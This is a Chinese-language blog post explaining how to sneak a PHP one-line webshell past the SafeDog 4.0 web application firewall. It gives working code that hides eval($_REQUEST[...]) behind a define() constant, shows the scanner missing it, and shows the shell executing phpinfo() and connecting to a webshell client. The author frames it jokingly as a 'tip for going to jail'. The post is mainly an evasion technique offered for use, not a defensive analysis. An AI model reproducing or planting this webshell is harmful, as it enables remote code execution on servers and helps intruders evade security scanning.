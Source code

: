```yaml
---
layout: post
title:  "安全狗4.0版本绕过"
categories: waf
tags: waf
author: young
---
```




* content
{:toc}








今天写一篇文章，关于webshell绕安全狗的（一个入狱小技巧~~）

![图片1.png](https://i.loli.net/2020/02/26/rRHUL9BYu75w4mj.png)

直接下载apache最新版的安全狗，4.0的这个版本~~~

![图片2.png](https://i.loli.net/2020/02/26/POAMZJfa37QjBDc.png)

然后进行安装安全狗，然后略过这块安装，有手的基本都会安装~~~~~~~~~~

进入了安全狗，我们先写一个简单的一句话马

![图片3.png](https://i.loli.net/2020/02/26/vRKcmDozQtU1FsG.png)

看准路径，我们在安全狗里面的 自定义路径扫描

![图片4.png](https://i.loli.net/2020/02/26/WxIk8u5av7YMXOV.png)

![图片5.png](https://i.loli.net/2020/02/26/IZWNmijvFM9aXo2.png)

选择我刚刚的那个文件夹，然后扫描这个文件夹的所有文件。（然而我只有一个~~~~）

然而今天，我分享一个骚姿势，每日一个入狱小技巧~~~~~~~

通过定义常量，而绕过安全狗

用到define() 这个函数~~

![图片6.png](https://i.loli.net/2020/02/26/UZFkt8pHewPBqJr.png)

参数name，就是定义的这个常量名，value就是定义常量值。这两个是必需的

就这样开始定义

```php
define("hi","$_REQUEST['young']")
```

就定义了一个基本成型的一句话，然后再看一下正常的一句话

```php
<?php eval($_REQUEST[‘a’]); ?>
```

没错，就是缺少了个eval()，问题不大~~

这样看可能不太直观，我按换行一下

```php
<?php
define("hi","$_REQUEST[young]");
?>
```

是不是看的很直观，很眼熟。成功的定义完常量后，我们再把它代入eval()
前面已经说了定义常量，前面这个hi，是常量名称
后面双引号里面就是值，所以我们把 hi 这个名称，代入eval()
就可以了

```php
<?php
define("hi","$_REQUEST[young]");
eval(hi);
?>
```

![图片7.png](https://i.loli.net/2020/02/26/fwFTmO4YvQZ9n3U.png)

这时候我们保存进去，再用安全狗扫一下，依然是选择这个demo文件夹里面的内容

![图片8.png](https://i.loli.net/2020/02/26/jFIGNqSsgRobprA.png)

![图片9.png](https://i.loli.net/2020/02/26/3RF5CuLKgervE9P.png)

于是乎成功的绕过了，是不是很简单~~~

所以其实绕waf不是很难，咳咳

![图片10.png](https://i.loli.net/2020/02/26/QnUGkmJ84aWytxg.png)

是不是很奇怪，嘿嘿，其实我们要传参。先执行一下phpinfo()

确认下可不可以~~~~

![图片11.png](https://i.loli.net/2020/02/26/WzEkwiRmT7YsH4O.png)

成功的执行了，这时候我们在连接这个webshell

![图片12.png](https://i.loli.net/2020/02/26/knCjA1PTWHVy7xL.png)

然后就成功的连接啦~~~~~

如果文章可以的话我后期分享一个绕d盾的~~~~
